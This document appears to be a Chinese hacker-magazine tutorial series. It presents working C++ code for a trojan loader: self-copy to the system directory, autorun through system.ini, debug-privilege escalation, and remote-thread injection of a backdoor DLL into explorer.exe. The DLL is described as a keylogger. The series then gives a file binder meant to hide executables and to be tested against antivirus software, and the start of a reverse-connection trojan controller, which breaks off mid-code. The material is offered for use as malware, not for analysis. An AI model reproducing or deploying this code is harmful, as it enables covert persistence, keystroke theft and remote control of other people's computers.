- 1. 远程线程插入技术。这种技术可以将要实现的功能程序做成一个线程，并将此线程在运行时自动插入到常见进程中，使之作为此进程的一个线程来运行。

到上述的任何东西，都要再次在启动进程中分配存储空间，并要插入到目标进程中去，这种方法对于实现较少功能的程序来说，还可以忍受，一旦程序实现的功能较多，其编程的复杂性会非常高，不符合常规程序设计的特点，最终可能导致程序的崩溃。从总体上来分析发现，这种技术不适合功能比较多的后门控制程序的编写。

- 2. 动态链接库插入技术。将后门程序做成一个动态链接库文件，仍然使用远程线程插入技术将此动态链接库的加载语句插入到目标进程中去，并将调用动态链接库函数的语句插入到目标进程。这个函数类似于普通程序中的入口程序。这里需要提及的就是，在现有公布的文档中，似乎大家都觉得应该将实现后门功能的入口程序放在 `DLL_PROCESS_ATTACH` 或者 `DLL_THREAD_ATTACH` 分支语句处。但是我们在实验中发现，这样做会引出诸多的问题，每个进程在调用自己需要的动态链接库的时候都会调用入口函数，这样就会出现一些多次加载的错误。对于这一点，微软的文档中没有做明确的说明。

> 远程线程函数插入到目标进程中的程序不能使用目标程序的消息循环，所以对于既要使用进程隐藏，又要使用交互式程序界面的程序是不能实现的。目前使用这种方法进行隐藏的后门软件主要有 PortLess、BackDoor、BifS、dll、NOIR—QUEEN 等。

启动 DLL 后门的载体 EXE 是不可缺少的，也是非常重要的，它被称为 Loader。如果没有 Loader，那我们的 DLL 后门如何启动呢？因此，一个好的 DLL 后门会尽力保护自己的 Loader 不被查杀。Loader 的方式有很多，可以是为我们的 DLL 后门而专门编写的一个 EXE 文件；也可以是系统自带的 Rundll32.exe，即使停止了 Rundll32.exe，DLL 后门的主体还是存在的。3721 网络实名就是一个例子，虽然它并不是真正的后门。

- 3. Hooking API。这是比较经典的技术，这里使用“Hooking API”这个术语表示对 API 的完全修改，就是通过修改 API 函数的入口地址的方法来欺骗试图列举本地所有进程的程序。因为能够列举本地进程的 API 函数也就是那几个，所以为了能够欺骗列进程程序，就要修改列进程 API 函数的入口地址，使别的程序在调用这些函数的时候，首先转向我们的程序。我们的程序中需要做的工作就是在列表中将自己的进程信息去掉，从而达到进程的隐藏，这种方法的实现难度更大，要求程序设计者要精通 Windows 下的进程、汇编、PE 文件结构和一些 API 函数。

首先来看运行前挂钩。这里修改我们想要修改的函数的物理模块（大多数时候是 `.exe` 或 `.dll`），在这里我们至少有 3 种可能的做法。第一种可能是找到函数的入口点，然后重写它的代码。这会因为函数的大小而受限制，但我们能动态加载其他一些模块（API `LoadLibrary`），所以应该足够了。

内核函数（kernel32.dll）是通用的，因为 Windows 中每个进程都有这个模块的拷贝。另一个好处是如果我们知道哪些模块在某版本中会修改，我们可以在一些 API（如 LoadLibraryA）中使用直接的指针。这是因为 Kernel 模块在内存中的地址在相同的 Windows 版本中是固定的，我们同样也能用动态加载的模块。在这里它的初始化部分在加载进内存后立刻就运行，在新模块的初始化部分我们不受限制。

第二种可能是在模块中被代替的函数只是原函数的扩展，然后我们选择要么修改开始的 5 个字节为跳转指令，或者改写 IAT。如果改为跳转指令，那么将会改变指令执行流程转为执行我们的代码。如果调用了 IAT 记录被修改的函数，我们的代码能在调用结束后被执行，但模块的扩展没那么容易，因为我们必须注意 DLL 首部。第三种是修改整个模块。这意味着我们创建自己的模块版本，它能够加载原始的模块并调用原始的函数，当然我们对这个不感兴趣，但重要的函数都是被更新的。这种方法对于有的模块过大和拥有几百个导出函数的很不方便。

接下来我们来看一下运行时挂钩的技术。在运行前挂钩通常都非常特殊，并且是在内部面向具体的应用程序（或模块）。如果我们更换了 Kernel32.dll 或 Ntdll.dll 里的函数（只在 NT 操作系统里），我们就能完美地做到在所有将要运行的进程中替换这个函数，但说来容易做起来却非常难，因为我们不仅得考虑精确性和需要编写比较完善的新函数或新模块，但主要问题是只有将要运行的进程才能被挂钩（要挂钩所有进程只能重启电脑）。另一个问题是如何进入这些文件，因为 NT 操作系统保护了它们。比较好的解决方法是在进程正在运行时挂钩，这需要更多的有关知识，但最后的结果相当不错。

在运行中挂钩只对能够写入它们内存的进程能成功。为了能写入它自己，我们使用 API 函数 `WriteProcessMemory`。现在我们开始运行中挂钩我们的进程。使用“Hooking API”技术的例子有 *nix 下 RootKit，Windows 2000 下的 Ntrootkit 和 hxdef 等，另外病毒里的反杀毒软件技术也经常采用。

说了这么多，无非就是让大家了解一下当前进行进程隐藏都有哪些技术。不过，在本文中不可能将所有的技术都讲到。结合大家在论坛上比较关心的焦点问题，我在这里先对 DLL 的远程线程插入的 Loader 程序进行解析，如果以后有机会，我会继续将 Hook API 的技术奉献给大家，以解大家对编程的厚爱。

### 剑走偏锋之 Loader 技术

我提供的这个程序本身带有木马的功能，它会自动生成一个名字为 MFC42.DLL 的文件，并放入 `%systemdir%` 目录下，Loader 程序由 Setver.exe 来实现，所有的注册表关联选项在程序中都有明示。另外，本 DLL 实现了一个捕获键盘的功能，并将捕获的内容存入 `C:\` 下的 Keystroke.log 文件中，读者可以使用任何一种文本编辑器打开查看。

我的程序中要使用的头文件如下：

### 远程线程插入 DLL（示例代码与说明）

```cpp
#include "stdafx.h"
#include "tlhelp32.h"
#include "nt.h"
```

这个程序中指定要插入的目标进程为 **Explorer.exe**。当然你可以根据自己的需要决定插入哪个进程，不过通常选择系统常用且必然启动的进程，这样可以提高在任意时刻插入成功的概率。

```cpp
#define TargetEXE "explorer.exe"
#define THREADSIZE 1024 * 8
```

定义一个结构体，把在线程函数中要用到的全局变量、自定义函数和系统函数地址集中保存。这样远程线程被注入到 Host 进程后，可以通过地址访问这些对象，规避重定位带来的问题。

```cpp
typedef struct _RemotePara {
    /* 参数结构 */
    char  DLLPath[256];
    char  funname[256];
    DWORD dwLoadLibrary;
    DWORD dwGetProcAddress;
} RemotePara;
```

提升调试特权级别函数声明：`void EnableDebugPriv(void);`，以使 DLL 能够顺利插入目标进程。线程注入入口函数：`void Inject_dll(void);`。

将自身拷贝到系统目录并改名（如 `Setver.exe`）作为 DLL Loader，并通过开机/登录自动启动关联实现驻留。为了获得 `.exe` 全路径，先取应用 `.hlp` 路径，再分离重组扩展名。

```cpp
void CopyMeToSysDir(void)
{
    CString sourcepath, destpath;
    char drive[_MAX_DRIVE];
    char dir[_MAX_DIR];
    char fname[_MAX_FNAME];
    char ext[_MAX_EXT];
    // 得到应用程序的 .hlp 文件路径并重组为 .exe
}
```

```cpp
// 重组，从而得到 .exe 文件的全路径
_splitpath((AfxGetApp()->m_pszHelpFilePath), drive, dir, fname, ext);
sourcepath = drive;
sourcepath = sourcepath + dir + AfxGetApp()->m_pszExeName + ".exe";
char tmp[256];
GetWindowsDirectory(tmp, 256);
destpath = tmp;
destpath = destpath + "\\setver.exe";
if (strcmp(sourcepath, destpath)) return;
CopyFile(sourcepath, destpath, false);
```

使用 `System.ini` 在注册表中添加自动启动键值。文中选择不常用键值以增强隐蔽性；看似写 `System.ini`，实际会映射到注册表变化，同时涉及注册表与 ini 文件读写技术。

```cpp
void AddAutoRun(void)
{
    CString DirWin, DirSys, strSysContents, strSystemINI;
    char tmp[256];
    GetWindowsDirectory(tmp, 256);
    DirWin = tmp;
    GetSystemDirectory(tmp, 256);
    DirSys = tmp;
    strSysContents = DirWin + "\\explorer.exe" + DirWin + "\\setver.exe";
    strSystemINI = DirWin + "\\system.ini";
    WritePrivateProfileString("boot", "shell",
        strSysContents.GetBuffer(256),
        strSystemINI.GetBuffer(256));
}
```

下面函数用于把对应 API 在 DLL 中的相对地址保存下来：从给定 DLL 句柄读取 API 函数入口地址。该功能被独立成模块以增强程序独立性。

```cpp
void SaveAddr(HINSTANCE h, char *f, DWORD *dw)
{
    *dw = (DWORD)::GetProcAddress(h, f);
    if (!(*dw)) {
        printf("failed at GetProcAddress for %s\n", f);
    }
}
```

将用到的 API 函数在对应的 DLL 中的相对地址保存下来。在本程序中，`ThreadProc` 线程函数实际上只用到了 `LoadLibraryA` 和 `GetProcAddress` 两个 API 函数，而这两个 API 函数都存在于 `Kernel32.dll` 中。

```cpp
void SetFunctionAddr(RemotePara *pRP)
{
    HINSTANCE hKernel32 = LoadLibrary("kernel32.dll");
    SaveAddr(hKernel32, "LoadLibraryA", &pRP->dwLoadLibrary);
    SaveAddr(hKernel32, "GetProcAddress", &pRP->dwGetProcAddress);
}
```

对于自己在 DLL 中定义的函数，在这里要进行函数的类型声明，以便于在后面分配相应结构在 Host 程序中的相对地址。

```cpp
typedef HMODULE (__stdcall *MLoadLibraryA)(LPCSTR);
typedef FARPROC (__stdcall *MGetProcAddress)(HMODULE, LPCSTR);
```

定义远程线程的线程函数。在使用 `CreateRemoteThread` 函数创建线程的时候，将 `RemotePara` 结构体里存放的全局变量、自定义函数和调用的系统 API 函数，作为线程函数的参数传入。在函数中通过 `LPara` 访问，并使用 `LoadLibrary` 和 `GetProcAddress` 完成远程调用地址解析。随后将自己的 DLL 加载进来，并调用 DLL 入口函数 `GetStart(HINSTANCE hInstance)`。

```cpp
DWORD __stdcall ThreadProc(RemotePara *LPara)
{
    int i = 1;
    unsigned long d;
    char tmp[256];
    RemotePara *lpPara = LPara;

    MLoadLibraryA myLoadLibrary;
    MGetProcAddress myGetProcAddress;
    typedef void (__stdcall *MGetStart)(HINSTANCE);
    MGetStart myGetStart;

    myLoadLibrary = (MLoadLibraryA)lpPara->dwLoadLibrary;
    myGetProcAddress = (MGetProcAddress)lpPara->dwGetProcAddress;
    ...
}
```

```cpp
myGetProcAddress = (MGetProcAddress)lpPara->dwGetProcAddress;

/* 将实现后门功能的DLL加载进来 */
HINSTANCE hDllInstance = myLoadLibrary(lpPara->DLLPath);

/* 得到DLL中GetStart函数的入口地址 */
myGetStart = (MGetStart)myGetProcAddress(hDllInstance, lpPara->funname);

__try {
    myGetStart(hDllInstance);
}
__except(1) {
}
return 0;
```

下面是将 DLL 插入到远程线程中的主程序。一些重要的工作都要在这里实现：首先获取目标进程 ID 并通过 `OpenProcess` 打开进程；解决地址重定位问题，在目标进程中分配内存并写入所需变量；通过 `EnableDebugPriv()` 提升权限；使用 `VirtualAllocEx` 在目标进程虚拟空间中分配地址；再配合 `CreateRemoteThread()` 在远程进程中执行线程函数。

```cpp
void Inject_dll(void)
{
    int nProcess;
    char dllfn[MAX_PATH];

    EnableDebugPriv();
    GetSystemDirectory(dllfn, MAX_PATH);
    strcat(dllfn, "\\mfc42m.dll");
    GenerateDll(dllfn);

    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32;
    nProcess = 0;
    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (Process32First(hSnap, &pe32)) {
        ...
    }
}
```

```c
do {
    if (!strcmp(pe32.szExeFile, TargetEXE)) {
        hProcess = pe32.th32ProcessID;
        break;
    }
    pe32.dwSize = sizeof(PROCESSENTRY32);
} while (Process32Next(hSnap, &pe32));

/* 根据得到的ID将进程打开 */
HANDLE hOpenProcess = OpenProcess(
    PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    hProcess
);
if (!hOpenProcess) {
    printf("failed at 1\n");
    return;
}
```

给将要插入到远程进程的线程在目标进程中分配空间，大小由 **THREADSIZE** 决定，空间的起始地址赋值给 `pRemoteThread`，代码如下：

```c
void *pRemoteThread = VirtualAllocEx(
    hOpenProcess,
    0,
    THREADSIZE,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
if (!pRemoteThread) {
    printf("failed at 2\n");
    return;
}

/* 将整个ThreadProc插入到远程进程的地址空间中 */
if (!WriteProcessMemory(hOpenProcess, pRemoteThread, ThreadProc, THREADSIZE, 0)) {
    printf("failed at WriteProcessMemory\n");
    return;
}

/* initialize public remote parameters */
RemotePara myRemotePara;
ZeroMemory(&myRemotePara, sizeof(RemotePara));
SetFunctionAddr(&myRemotePara);
strcpy(myRemotePara.DLLPath, dllfn);
strcpy(myRemotePara.funname, "GetStart");
/* load public remote parameters */
```

```c
RemotePara *pRemotePara = (RemotePara *)VirtualAllocEx(
    hOpenProcess,
    0,
    sizeof(RemotePara),
    MEM_COMMIT,
    PAGE_READWRITE
);
if (!pRemotePara) {
    printf("failed at 4\n");
    return;
}

if (!WriteProcessMemory(hOpenProcess, pRemotePara, &myRemotePara, sizeof(RemotePara), 0)) {
    printf("failed at 5\n");
    return;
}

/* 在目标进程中创建远程线程 */
HANDLE hRemoteThread = CreateRemoteThread(
    hOpenProcess,
    0,
    0,
    (DWORD(__stdcall *)(void *))pRemoteThread,
    pRemotePara,
    0,
    0
);
if (!hRemoteThread) {
    printf("failed at 6\n");
    return;
}
```

提升调试特权级以使线程能够顺利插入到远程进程中去。这个模块中，首先要将 Loader 程序的进程令牌打开，并将其属性设置为具有调整令牌权限，这可以通过对 `tkp.Privileges[0].Attributes` 设置为 `SE_PRIVILEGE_ENABLED` 来实现。然后需要使用 `AdjustTokenPrivileges()` 函数对 Loader 程序的令牌做出调整。

```c
void EnableDebugPriv(void)
{
    HANDLE hToken;
    LUID sedebugnameValue;
    TOKEN_PRIVILEGES tkp;

    /* 以调整和查询的方式，打开本进程的令牌 */
    if (!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
        &hToken)) return;

    if (LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue))
    {
        CloseHandle(hToken);
        return;
    }

    // 令此令牌做调整，使其持有特权级
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Luid = sedebugnameValue;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    if (AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL))
        CloseHandle(hToken);
}
```

```c
void htmain(void)
{
    CopyMeToSysDir();
    AddAutoRun();
    Inject_dll();
}
```

对于 DLL 文件不做具体的要求，程序设计者可以将自己要实现的后门功能加入到 DLL 中，然后使用我们这个主程序进行 DLL 的远程线程插入。不过，通过这种方式插入的 DLL 不能做成交互界面，这一点是通过多次实验发现的，业界很多高手也有共识。但是个人认为，事物没有绝对的，也许在不久的将来有高人出现，能够通过某些变通的方法将交互功能实现，那就最好不过了，真诚期待这一天的早日到来。

| 项目 | 内容 |
|---|---|
| 适合读者 | 编程爱好者 |
| 前置知识 | VC 基本使用方法 |
| 难度等级 | 低 |

**SOCKET：** 编程一直被看做是网络安全中不可缺少的一项技术……（本段为栏目导语与说明文字）

## 从零开始编程系列之二：自己做个文件捆绑器

将多个文件合并成一个最终可执行文件，运行这个最终合成文件后就相当于运行了合并前的多个文件……下面我们就用 VC6 做的一个文件捆绑器的例子来告诉你。

其实文件捆绑器的构成思想非常简单：合并文件时，建立一个新的二进制文件，先写入自身捆绑程序的数据和文件长度，再写入要捆绑文件的数据与长度……解析时按相反顺序读取并写出即可。

（右栏）介绍捆绑实现流程：读取自身和目标文件长度，依次读取各文件数据写入新文件，直到最后一个目标文件；并说明多文件捆绑可在示例基础上扩展。

### 捆绑多个子文件为一个可执行程序

先得到自身捆绑程序的文件长度和第一个要捆绑文件的文件长度，枚举第一个要捆绑文件有无图标，有的话用它做最终生成文件的图标，否则用自身捆绑程序所带默认图标做最终生成文件的图标。在新建二进制文件中写入自身捆绑程序的数据和其文件长度，再写入第一个要捆绑文件的数据及其文件长度，最后直接写入第二个文件的数据。

下面是合并程序函数的具体代码，实现如下：

```cpp
// 定义要使用到的捆绑程序自身文件信息的结构体
struct MODIFY_DATA {
    unsigned int finder;      // 数据定位信息
    _off_t my_length;         // 文件长度(自身)
} modify_data = {0x12345678, 0};

// 绑定2个文件为1个可执行文件
bool CBindFileDlg::BindFiles()
{
    FILE* myself;   // 自身文件
    FILE* out;      // 最终合成文件
    FILE* in;       // 待绑定文件
    int bytesin;
    int totalbytes = 0;
    struct _stat ST;
    unsigned int finder = 0x12345678;
    unsigned int i, k;
    int l = 1;
    char buf1[20];

    his_name = strFirstFilePath;
    _stat(my_name, &ST);
    modify_data.my_length = ST.st_size;

    if (modify_data.my_length == 0) {
        MessageBox("绑定文件中，自身文件长度为零时出错!", "错误");
        return false;
    }

    buf = (BYTE*)malloc(modify_data.my_length);
    if (buf == NULL) {
        MessageBox("绑定文件中，分配自身文件长度时出错!", "错误");
        return false;
    }

    myself = fopen(my_name, "rb");
    if (myself == NULL) {
        free(buf);
        MessageBox("绑定文件中，打开自身文件时出错!", "错误");
        return false;
    }

    // 先读取捆绑程序自身文件数据
    bytesin = fread(buf, 1, modify_data.my_length, myself);
    fclose(myself);
    if (bytesin != modify_data.my_length) {
        free(buf);
        MessageBox("绑定文件中，不能完全读取自身文件内容时出错!", "错误");
        return false;
    }
}
```

```cpp
// 存储自身文件信息到缓冲区(如长度)
for (i = 0; i < modify_data.my_length - sizeof(finder); i += sizeof(finder)) {
    for (k = 0; k < sizeof(finder); k++) {
        if (buf[i + k] != ((BYTE*)&finder)[k])
            break;
    }

    if (k == sizeof(finder)) {
        memcpy(buf + i, &modify_data, sizeof(modify_data));
        break;
    }
}

if (i >= modify_data.my_length - sizeof(finder)) {
    free(buf);
    MessageBox("绑定文件中，不能定位自身文件时出错!", "错误");
    return false;
}

// 获取第一个要绑定文件的信息(文件长度)
if (_stat(strFirstFilePath, &ST) != 0 || ST.st_size == 0) {
    free(buf);
    MessageBox("绑定文件中，读取第一个要绑定文件时出错!", "错误");
    return false;
}

// 获取自身文件图标及第一个要绑定文件的图标(若第一个要绑定文件没有图标，则用自身文件图标)
list_my_icons();

out = fopen(strFinalFilePath, "wb");
if (out == NULL) {
    free(buf);
    MessageBox("绑定文件中，创建绑定后生成的合成文件时出错!", "错误");
    return false;
}

// 先将前面读出的自身捆绑程序的数据写入最终合成文件中
totalbytes += fwrite(buf, 1, bytesin, out);
in = fopen(strFirstFilePath, "rb");
if (in == NULL) {
    free(buf);
    MessageBox("绑定文件中，打开第一个要绑定文件时出错!", "错误");
    return false;
}
```

```cpp
return false;

// 写入第一个要绑定文件的长度到最终合成文件中
totalbytes += fwrite(&ST, sizeof(ST), 1, out);

// 写入路径分解后文件执行方式的标志位（同步或异步执行）
UpdateData(TRUE);
totalbytes += fwrite(&m_Sync, 1, sizeof(int), out);

// 写入第一个要绑定文件的数据到最终合成文件中
while (bytesin = fread(buf, 1, modify_data.my.length1, in)) {
    totalbytes += fwrite(buf, 1, bytesin, out);
}

fclose(in);

// 打开第二个要绑定的文件
in = fopen(strSecondFilePath, "rb");
if (in == NULL) {
    free(buf);
    MessageBox("绑定文件中，打开第二个要绑定文件时出错", "错误");
    return false;
}

// 继续写入第二个要绑定文件的数据到最终合成文件中
while (bytesin = fread(buf, 1, modify_data.my.length2, in)) {
    totalbytes += fwrite(buf, 1, bytesin, out);
}

fclose(in);
fclose(out);
free(buf);
return true;
```

新建文件中。同样，通过已读取的自身捆绑程序文件长度和第一个被捆绑文件的文件长度，加上保存这两个文件长度值的字节数，便可以准确定位第二个被捆绑文件的位置，读取其数据，写入到第二个新建文件中。运行这两个文件，最后再删除这两个文件即可。释放最终合成文件的代码具体实现如下：

```cpp
// 创建分解文件后，运行各分解文件时的过程
void CBindFileDlg::Create_Process(const char* temp_exe, BOOL async)
{
    HANDLE hProcess;
    HANDLE hThread;
    PROCESS_INFORMATION PI;
    STARTUPINFO SI;
    memset(&SI, 0, sizeof(SI));
    SI.cb = sizeof(SI);

    CreateProcess(temp_exe, NULL, NULL, NULL, FALSE,
                  NORMAL_PRIORITY_CLASS, NULL, NULL, &SI, &PI);

    if (!CreateProcess(...)) {
        HINSTANCE result = ShellExecute(NULL, "open", temp_exe, NULL, NULL, SW_SHOW);
    }

    hProcess = PI.hProcess;
    hThread = PI.hThread;

    if (!async) {
        WaitForSingleObject(hProcess, INFINITE);
        unlink(temp_exe);
    }
}

// 分解已合成的文件，同时运行它们
void CBindFileDlg::Unbind()
{
    FILE* myself;
    FILE* out;
    int bytesin;
    int totalbytes = 0;
    char temp_exe1[] = "temp1.exe";
    char temp_exe2[] = "temp2.exe";
    int SyncFlag;

    buf = (BYTE*)malloc(modify_data.my.length);
    myself = fopen(my.name, "rb");
    if (myself == NULL) {
        free(buf);
        MessageBox("分离文件中，打开自身文件时出错", "错误");
        return;
    }
    // ...
}
```

### 释放最终合成文件

打开自身文件，从中得到自身捆绑程序的文件长度，便可将文件指针定位到第一个被捆绑文件的位置，读取其文件长度和其数据，将读出的数据写入到第一个新建文件中。

```cpp
out = fopen(temp_exe1, "wb"); // 创建第一个绑定的文件
if (out == NULL) {
    free(buf);
    MessageBox("分离文件中，创建第一个被绑定文件时出错!", "错误");
    return;
}

// 将文件指针定位到被解器程序长度尾部
fseek(myself, modify_data.my_length, SEEK_SET);

// 读取第一个绑定文件的长度
if (fread(&prog1_length, sizeof(prog1_length), 1, myself) == 0) {
    free(buf);
    MessageBox("分离文件中，读取第一个被绑定文件长度时出错!", "错误");
    return;
}

// 读取最终文件执行方式（同步或异步执行）
if (fread(&SyncFlag, sizeof(int), 1, myself) == 0) {
    free(buf);
    MessageBox("分离文件中，读取第一个被绑定文件长度时出错!", "错误");
    return;
}

// 读取第一个文件内容并写入到新建的 temp1.exe 文件中
while (bytesin = fread(buf, 1, sizeof(buf), myself)) {
    if (totalbytes + bytesin > prog1_length)
        bytesin = prog1_length - totalbytes;
    totalbytes += fwrite(buf, 1, bytesin, out);
}

fclose(out); // 关闭第一个绑定文件句柄
#ifdef DEBUG_PRINT
fprintf(stderr, "已复制 %d 字节\n", totalbytes);
#endif

totalbytes = 0;
out = fopen(temp_exe2, "wb"); // 创建第二个绑定的文件
if (out == NULL) {
    free(buf);
    MessageBox("分离文件中，创建第二个被绑定文件时出错!", "错误");
    return;
}

// 将文件指针定位到最终合成文件中的第二个绑定文件头部
fseek(myself, modify_data.my_length + sizeof(modify_data.my_length) + sizeof(int) + prog1_length, SEEK_SET);
// 读取第二个绑定文件内容并写入到新建的 temp2.exe 文件中
```

```cpp
while (bytesin = fread(buf, 1, sizeof(buf), myself)) {
    totalbytes += fwrite(buf, 1, bytesin, out);
}

fclose(out); // 关闭第二个绑定文件句柄
#ifdef DEBUG_PRINT
fprintf(stderr, "已复制 %d 字节\n", totalbytes);
#endif

fclose(myself); // 关闭程序合成文件句柄
if (totalbytes == 0) {
    free(buf);
    MessageBox("分离文件中，在自身文件中没有被分离的对象!", "错误");
    return;
}

free(buf); // 释放缓冲区
// 判断前面读取的最终文件执行标志，来决定以何种方式运行它
if (SyncFlag) { // （0——同步执行，1——异步执行）
    // 置为分解后，为同步执行方式
    Create_Process(temp_exe1, false);
    Create_Process(temp_exe2, false);
} else {
    // 置为分解后，为异步执行方式
    Create_Process(temp_exe1, true);
    Create_Process(temp_exe2, true);
}
```

### 判断程序捆绑与分解时间

由于本程序是将自身捆绑程序作为文件头、要绑定文件附加其后的方式生成最终合成文件的，所以只要知道自身捆绑程序的文件长度，再在初始化对话框函数 OnInitDialog() 中加以判断，即可知道是否是最终合成文件（要不要释放内部绑定文件）。故判断是捆绑还是释放文件的代码具体实现如下：

```cpp
BOOL CBindFileDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    // 添加“About...”菜单到系统菜单
    ASSERT((IDM_ABOUTBOX & 0xFFF0) == IDM_ABOUTBOX);
    ASSERT(IDM_ABOUTBOX < 0xF000);
    CMenu* pSysMenu = GetSystemMenu(FALSE);
    if (pSysMenu != NULL) {
        CString strAboutMenu;
        strAboutMenu.LoadString(IDS_ABOUTBOX);
        if (!strAboutMenu.IsEmpty()) {
            ...
        }
    }
}
```

```cpp
pSysMenu->AppendMenu(MF_SEPARATOR);
pSysMenu->AppendMenu(MF_STRING, IDM_ABOUTBOX, strAboutMenu);

// 设置对话框图标。当应用程序主窗口不是对话框时，程序可以自动改变。
SetIcon(m_hIcon, TRUE);
SetIcon(m_hIcon, FALSE);

m_Progress.SetRange32(1,500);
m_Progress.SetBkColor(RGB(160,180,220));
m_Progress.ShowPercent(true);
m_Progress.SetPos(500);

strFirstFilePath = "";
strSecondFilePath = "";
strFinalFilePath = "";
prog_Length = 0;
his_name = "";
```

```cpp
buf = NULL;                // 缓冲区置空
GetModuleFileName(0, my_name, sizeof(my_name));
struct _stat ST;
stat(my_name, &ST);        // 获取自身文件信息（长度）

if (ST.st_size > 184*1024)
{
    Unbind();              // 分离文件并运行
    exit(0);               // 直接退出程序，不显示捆绑程序画面
    return TRUE;
}
```

到了这里，一个完整的文件捆绑器就从你的手中诞生了。你完全可以用它去挑战各类安全防护软件，看看是我们写的程序隐藏性强，还是各大安全软件强！

| 项目 | 内容 |
|---|---|
| 适合读者 | 编程新手 |
| 前置知识 | C基本语法 |
| 难度等级 | 低 |


## 从零开始玩编程系列之——经典的反向连接木马

采用服务器端的编程方法（Socket）来解释反向连接技术。下面通过一个较小但有代表性的例子，说明其实现方式，并帮助不熟悉网络编程的读者快速入门。

以反向连接为例，我们先来看控制端的编程实现方法。通过前面的介绍可知，控制端应采用服务器端编程方式。若使用 Winsock 编程，需要包含对应头文件并链接库文件（如 ws2_32.lib）。

```cpp
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")
```

接下来定义使用的端口和通信缓冲区，同时设置一些后续将使用到的变量。

```cpp
#define DEFAULT_PORT    5150
#define DEFAULT_BUFFER  4096
int iPort = DEFAULT_PORT;
BOOL bInterface = FALSE;
BOOL bRecvOnly = FALSE;
char szAddress[128];
```

再定义一个函数，用来提示用户本程序的使用方法。

```cpp
void usage()
{
    printf("usage: server [-p x] [-i IP] [-o] ...\n");
}
```

随着安全事件频发，主机防护意识不断增强，传统正向连接木马越来越难以穿透防火墙与杀毒软件监控，因此出现了采用反向连接技术的“反弹型”木马。相关技术介绍相对较少，本文从编程实现角度进行说明。

从本质上看，反向连接与正向连接差别并不大：正向连接中服务器端通常为被控端、控制端为客户端；而反弹方式则在实现上对两端角色进行转换，以绕过网络边界限制。

```c
printf("        -p:x Port number to listen on\n");
printf("        -i:str IP Interface to listen on\n");
printf("        -o Don't echo the data back\n\n");
ExitProcess(1);
```

下面这个函数用来测试用户输入参数的正确性，如果用户输入了非法参数，就显示提示，指导用户输入正确的参数。

```c
void ValidateArgs(int argc, char **argv)
{
    int i;
    for(i = 1; i < argc; i++)
    {
        if ((argv[i][0] == '-') || (argv[i][0] == '/'))
        {
            switch (tolower(argv[i][1]))
            {
                case 'p':
                    iPort = atoi(&argv[i][3]);
                    break;
                case 'i':
                    bInterface = TRUE;
                    if (strlen(argv[i]) > 3)
                        strcpy(szAddress, &argv[i][3]);
                    break;
                case 'o':
                    bRecvOnly = TRUE;
                    break;
                default:
                    usage();
                    break;
            }
        }
    }
}
```

定义一个主函数，让这个主函数实现定义套接字、绑定套接字，然后在特定套接字上进行监听。如果监听到信息，就进入循环将消息读出来。对消息进行操作的过程最好开辟一个线程来专门处理，否则就会把消息队列阻塞。

我们一起来顺着这个程序流程解释一下。首先来看 Main() 函数的开始部分，定义了一些参数。

```c
int main(int argc, char **argv)
{
    WSADATA wsd;
    SOCKET sListen, sClient;
    int iAddrSize;
    HANDLE hThread;
    DWORD dwThreadId;
    struct sockaddr_in local, client;
```

接下来，在主程序中，我们要验证输入参数的格式是否正确。

```c
ValidateArgs(argc, argv);
// 验证输入的参数是否正确
```

下面的 WSAStartup 函数调用是为了加载 WS2_32.lib 库文件，只有当这个库被加载之后才能够使用一些通信 API 函数。

```c
if (WSAStartup(MAKEWORD(2,2), &wsd) != 0)
{
    printf("Failed to load Winsock!\n");
    return 1;
}
```

下面使用 socket 函数创建一个流套接字，使用面向连接的协议 TCP 进行通信。如果用户要编写 UDP 通信程序，这里的第二个参数就要使用 SOCK_DGRAM，而第三个参数也要对应改为 IPPROTO_UDP。有的时候也会用到原始套接字编程，这时对应的第二和第三个参数应写为 SOCK_RAW 和 IPPROTO_RAW。这里将创建的 socket 赋值给 sListen，就是创建了一个服务端套接字，后面的通信操作都对应这个套接字进行。

```c
sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
if (sListen == SOCKET_ERROR)
{
    printf("socket() failed: %d\n", WSAGetLastError());
    return 1;
}
```

对地址结构 local 的参数进行赋值，这里首先要判断一下在调用服务端程序时是否输入了 IP 地址。如果用户没有输入 IP 地址，那么就会调用 usage() 函数，提示用户按照正确格式输入。

```c
if (bInterface)
{
    local.sin_addr.s_addr = inet_addr(szAddress);
    if (local.sin_addr.s_addr == INADDR_NONE)
        usage();
}
else
    local.sin_addr.s_addr = htonl(INADDR_ANY);
local.sin_family = AF_INET;
local.sin_port = htons(iPort);
```

现在既有了套接字，又有了地址结构，下面就要将这两个结合在一起，就要用到 bind() 函数。

```c
if (bind(sListen, (struct sockaddr *)&local, sizeof(local)) == SOCKET_ERROR)
{
    printf("bind() failed: %d\n", WSAGetLastError());
    return 1;
}
```

- bind() 的第一个参数是服务端套接字，第二个参数是服务端地址结构，第三个参数是地址结构大小。

一切都准备好了，下面开始监听。这里使用 listen 函数对 sListen 套接字进行监听，第二个参数指定可以同时处理的连接个数，这里指定为 8。

```c
listen(sListen, 8);
```

进入监听之后，就要进入 `while` 循环来等待要通信的客户端请求了，这就要用到 `accept` 函数。一旦 `accept` 函数检测到有连接请求，就要进行处理。

> 这里要采用多线程的技术处理每个通信请求，否则就会一次只能处理一个请求，其他请求就会被阻塞掉。

```c
while (1)
{
    iAddrSize = sizeof(client);
    sClient = accept(sListen, (struct sockaddr *)&client, &iAddrSize);
    if (sClient == INVALID_SOCKET) {
        printf("accept() failed: %d\n", WSAGetLastError());
        break;
    }

    printf("Accepted client: %s/%d\n", inet_ntoa(client.sin_addr), ntohs(client.sin_port));
    hThread = CreateThread(NULL, 0, ClientThread, (LPVOID)sClient, 0, &dwThreadId);
    if (hThread == NULL) {
        printf("CreateThread() failed: %d\n", GetLastError());
        break;
    }
    CloseHandle(hThread);
